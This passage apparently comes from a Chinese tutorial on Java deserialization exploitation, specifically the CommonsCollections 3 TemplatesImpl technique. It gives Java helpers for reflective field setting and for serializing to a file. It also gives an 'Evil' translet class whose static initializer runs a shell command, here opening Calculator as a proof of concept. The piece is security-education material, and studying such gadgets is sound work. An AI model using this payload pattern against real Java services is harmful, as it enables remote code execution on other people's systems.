 ```java
    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        Field declaredField = templatesClass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
    }

    public static Object unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        return obj;
    }
}
```

Evil类：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

# 参考文章

P神的Java安全漫谈

[Java反序列化CommonsCollections篇(三)-另一种命令执行方式](https://www.bilibili.com/video/BV1Zf4y1F74K/)
